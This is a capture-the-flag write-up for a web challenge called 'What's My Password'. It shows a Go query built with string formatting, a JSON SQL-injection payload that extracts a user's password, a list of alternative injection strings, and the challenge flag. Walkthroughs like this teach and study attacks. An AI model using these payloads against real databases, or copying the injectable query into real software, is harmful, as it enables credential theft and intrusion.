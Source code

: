 # What's My Password
![image](https://github.com/user-attachments/assets/9769118b-b0ee-434c-8592-76fad9827093)

### Solution

From the given zip file, we get a SQL file contains some information about the database. There is a ```users``` table with two columns, ```username``` and ```password```. There are 3 users defined but ```skat```'s password is redacted.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```
We also get Go file named ```main``` that contains ```SELECT``` statement for the response.
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```
Since there is no parameter verification for password, we can assume that password field is vulnerable to SQLi. We can use this payload to get the password. 


```json
{
"username":"skat","password":"'\" OR (username = \"skat\" AND password LIKE \"irisctf%\") OR \"'"
}
```

If the JSON payload is substituted into the SQL statement, it will looks like this

```sql
SELECT * FROM users WHERE username = "skat" AND password = "'" OR (username = "skat" AND password LIKE "irisctf%") OR "'"
```

![alt text](images/whatsmypass.PNG)

You can also use these payload
```
"\" or \"1\"=\"1"
\" or 1=1 -- -
\" or 1=1 limit 1 offset 1 -- -
\" union select * from users where username = \"skat\" -- -
```
### Flag 
The flag for this challenge is ```irisctf{my_p422W0RD_1S_SQl1}```
